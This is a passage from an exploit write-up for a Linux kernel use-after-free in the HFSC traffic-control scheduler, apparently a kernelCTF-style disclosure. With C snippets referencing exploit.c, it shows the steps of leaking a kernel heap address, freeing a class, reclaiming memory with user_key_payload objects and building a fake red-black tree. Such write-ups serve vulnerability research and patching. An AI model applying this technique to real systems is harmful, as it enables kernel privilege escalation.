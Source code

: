 ```c
	heap_read_primitive->raw_packet_socket,
	heap_read_primitive->rb_tree_interface_ifindex
);
```
- Read `UAF_rb_node->rb_right` to leak `&(class_B->cl_e)` address. Subtract `cl_e` member offset to get `class_B` address. Let's call this leaked address as `hfsc_class_leak_address`.
[[exploit.c#L1152]](../exploit/lts-6.6.64/exploit.c#L1152)
```c
user_key_payload_read(
	heap_read_primitive->key_A,
	user_key_payload_read_buffer,
	sizeof(user_key_payload_read_buffer)
);

fake_rb_node = (struct rb_node *)
	(
		user_key_payload_read_buffer + \
		struct_hfsc_class_member_el_node_offset - \
		sizeof(struct user_key_payload)
	);

u64 hfsc_class_leak_address = (u64)fake_rb_node->rb_right - struct_hfsc_class_member_el_node_offset;
```

### Step4: Build a fake rb_tree with 2 rb_node
#### First rb_node is built with the following steps:
- Delete `class_B`. This will remove `&(class_B->el_node)` from the tree. After this, `Victim_Qdisc->q.qlen == -1`.
	[[exploit.c#L1169]](../exploit/lts-6.6.64/exploit.c#L1169)
```c
delete_tclass(
	heap_read_primitive->route_socket,
	heap_read_primitive->rb_tree_interface_ifindex,
	TC_H_MAJ(heap_read_primitive->rb_tree_interface_classid_B),
	heap_read_primitive->rb_tree_interface_classid_B
);
```
- Allocate `struct user_key_payload` object to reclaim. Let's call this object `fake_hfsc_class_backed_by_user_key_payload_B`.
We know kernel address of `user_key_payload_B` (same as hfsc_class_leak_address).
[[exploit.c#L1176]](../exploit/lts-6.6.64/exploit.c#L1176)
```c
memset(user_key_payload_write_buffer, 0, sizeof(user_key_payload_write_buffer));
heap_read_primitive->key_B = user_key_payload_alloc(
	heap_read_primitive->key_B_desc,
	user_key_payload_write_buffer,
	sizeof(user_key_payload_write_buffer)
);
```
